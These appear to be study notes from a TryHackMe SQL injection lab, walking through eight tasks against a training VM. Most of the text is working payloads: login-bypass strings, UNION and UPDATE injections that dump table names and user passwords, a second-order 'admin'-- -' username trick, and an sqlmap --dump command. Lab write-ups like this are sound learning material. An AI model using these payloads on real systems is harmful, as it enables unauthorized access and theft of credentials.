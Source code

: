 # Room
https://tryhackme.com/room/sqlilab

# Task 1 - Intro
Deploy VM

# Task 2 - Intro to SQL Injection
SQL Injection allows attackers to execute their own malicious SQL statements. Using a single quote in an input field is a very basic test to check for SQL Injection.  If you search for part of a string and it returns that string and others that match it you know that wildcards are in use on the backend for your query.  Check what version of DBMS is on the backend to further craft a vulnerable query.  Another basic wildcard test is ' ;--.  You can use the sleep function with a query for testing, this is useful for blind tests, it will identify the DBMS as MySQL.  Using union and select with dual is another testing mechanism for MySQL.  Information_schema.tables contains information about all tables in the database, it is a metadata table

* Practical
  * Input Box Non-String
    * 1 or 1=1--
  * Input Box String
    * 1' or '1'='1'--
  * URL Injection   
    * /sesqli3/login?profileID=-1' or 1=1-- -&password=a
  * POST Injection
    * Use burp suite to intercept the login and modify the POST request
    * profileID=-1' or 1=1-- &password=a

# Task 3 - Intro to SQL Injection Part 2
If injection occurs on the UPDATE statement, the damage can be more severe.  UPDATE allows you to modify information in the database

* Practical
  * Login as the test user and then edit profile
  * In the profile fields, use vulnerable input to perform discovery
  * asd',nickName='test',email='hacked
  * ',nickName=sqlite_version(),email='
  * ',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
  * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
  * ',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
  * With this walkthrough in mind, find the secret table and the flag inside

# Task 4 - Broken Authentication
* Practical
  * Apply the skills learned in the previous tasks to this practical with a broken authentication form

# Task 5 - Broken Authentication 2
* Practical
  * Step through form authentication testing using the UNION command
  * ' UNION SELECT 1,2-- 
  * ' UNION SELECT 1, password from users-- -
  * ' UNION SELECT 1,group_concat(password) FROM users-- -

# Task 6 - Broken Authentication 3
* Practical
  * Step through a blind SQL Injection
  * Use sqlmap to navigate the injection and grab the flag
  * sqlmap -u http://10.10.58.129:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump

# Task 7 - Vulnerable Notes
* Practical
  * Create a new user on the registration page
  * ' union select 1,2'
  * Login with that user
  * Step through other user generation tests to find the flag
  * ' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''
  * '  union select 1,group_concat(password) from users'

# Task 8 - Change Password
* Practical
  * Take advantage of the change password field
  * Create a vulnerable username
  * admin'-- -
  * Login with that user
  * Change the password, the udpated password belongs to admin, not admin'-- -

